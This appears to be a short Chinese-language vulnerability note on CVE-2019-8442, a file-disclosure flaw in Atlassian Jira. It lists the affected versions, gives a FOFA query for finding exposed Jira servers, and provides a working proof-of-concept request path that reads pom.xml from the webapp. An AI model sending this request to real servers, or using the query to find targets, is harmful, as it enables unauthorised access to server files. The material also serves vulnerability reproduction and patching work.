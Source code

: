 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

```
Atlassian Jira < 7.13.4
Atlassian Jira 8.00-8.0.4
Atlassian Jira 8.1.0-8.1.1
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241425263.png)

验证POC

```
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241425438.png)